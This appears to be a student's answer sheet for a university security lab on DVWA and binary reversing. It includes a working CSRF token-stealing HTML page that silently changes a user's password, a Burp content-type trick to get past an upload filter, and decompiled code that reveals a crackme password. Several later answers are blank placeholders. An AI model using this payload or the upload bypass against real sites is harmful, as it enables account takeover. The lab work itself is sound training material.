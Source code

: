 # Part 1 - Advanced Web Exploits
# Exercise 1

> [!exercise] Exercise 1 - CSRF Token Stealing
>
> When on the high-security setting of DVWA, a unique ANTI-CSRF token is created each time the password change page is accessed, as shown in the workshop. To launch a CSRF attack in this case, we first need to steal the token. Create an HTML (name it: 'csrf.html') file that can steal the token from the DVWA CSRF page and change the password to 'csf2024s1'.
>
> **Answer:**
>
> The default `html` file already does the stealing for us, we just need to add the `hacklab IP` to the `source` and `url` variables.
>
> ```html
> <html>
> <body>
>     <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
>     <iframe id="myFrame" src="http://192.168.56.102/DVWA/vulnerabilities/csrf/" style="visibility: hidden;"
>         onload="maliciousPayload()"></iframe>
>     <script>
>         function maliciousPayload() {
>             console.log("start");
>             var iframe = document.getElementById("myFrame");
>             var doc = iframe.contentDocument;
>             var token = doc.getElementsByName("user_token")[0].value;
>             const http = new XMLHttpRequest();
>             const url = "http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=csf2024s1&password_conf=csf2024s1&Change=Change&user_token=" + token + "#";
>             http.open("GET", url);
>             http.send();
>             console.log("password changed");
>         }
>     </script>
> </body>
> </html>
> ```


<div style="page-break-after: always;"></div>

# Exercise 2

> [!exercise] Exercise 2 - Uploading the CSRF File
>
> Set the DVWA security level to MEDIUM. Upload the csrf.html file to the "hackable/uploads/" folder. Provide details of the steps you use to upload the HTML file with the security level set at medium.
>
> **Answer:**
>
> This was the exact same exercise from the workshop. Since the file upload only takes images, we simply intercept the packet in burp, change the content type to `image/jpeg` and forward it! 
> 
> ![[Pasted image 20240515072304.png]]
> 
> If we navigate to `<hacklab>/DVWA/hackable/uploads`, we can see the `html` file inside the directory.
> 
> ![[Pasted image 20240515072457.png|400]]

<div style="page-break-after: always;"></div>

# Exercise 3

> [!exercise] Exercise 3 - Triggering the Malicious HTML
>
> Show that after a user visits `http://[hacklabvm_ip]/hackable/uploads/csrf.html`, the password changes to 'csf2024s1'. Explain what happened.
>
> **Answer:**
>
> Clicking on the `csrf.html` file inside the uploads directory, we can see that the malicious script has executed and the password has been changed!
> 
> ![[Pasted image 20240515074706.png]]
> 
> The HTML code creates an invisible `iframe` that loads the DVWA CSRF page. When the `iframe` loads, it **triggers a function that steals the CSRF token from the page, constructs a malicious password change URL with the stolen token, and sends the request to change the password** to "csf2024s1" without the user's knowledge.
> 
> Modern browsers enforce the Same-Origin Policy (SOP) by default, which prevents malicious requests originating from domains other than the main website. To bypass this security measure, the **malicious HTML file needs to be hosted on the same domain as the target website**. That's why the **file is uploaded to the hacklab itself**, ensuring that the attack originates from the same domain and successfully changes the password.




# Part 2 - Digital Forensics

> [!exercise] Exercise 4 - Reversing (1)
>
> **q1. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689600/download?download_frd=1). You can run it as `./q1` in Linux. You are not allowed to patch this program. Use Ghidra, Cutter, or Radare2 (or something else) to decompile and deduce the password required for revealing the secret. Get the program to print the secret.
>
> **Answer:**
> I started off by `chmod'ing` the program to make it executable and tried executing it. It's asking for a password, so I now I know to **look for some kind of input validation** inside Ghidra. Reviewing the decompiled `main` function in `Ghidra`, we find it's che

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_418 [1032];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What is the password?");
  fgets(local_418,0x400,stdin);
  strtok(local_418,"\n");
  rot(local_418,0xd);
  iVar1 = strcmp(local_418,"I Love Cyber Security!");
  if (iVar1 == 0) {
    print_secret();
  }
  else {
    puts("Sorry, wrong password...");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

> [!exercise] Exercise 5 - Reversing (2)
>
> **q2. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689602/download?download_frd=1). You can run it as `./q2` in Linux. You are not allowed to patch this program. Use Ghidra/Cutter/Radare2 to determine what you need to do outside of the program to get it to reveal the secret. Get the program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 6 - Reversing (3)
>
> **q3. [2 points]** Download this [binary](https://myuni.adelaide.edu.au/courses/95262/files/14689603/download?download_frd=1). You can run it as `./q3` in Linux. You should patch this program to get it to reveal the secret using Ghidra/Cutter/Radare2 (as per workshop, Cutter is easiest, but feel free to use any program). Use the modified (patched) program to print the secret.
>
> **Answer:**
>
> [Space for answer]

> [!exercise] Exercise 7 - Matryoshka
>
> **q4. [3 points]** Analyze this [Hacktivist2-2.png](https://myuni.adelaide.edu.au/courses/95262/files/14689604/download?download_frd=1) to get the secret.
>
> **Answer:**
>
> [Space for answer]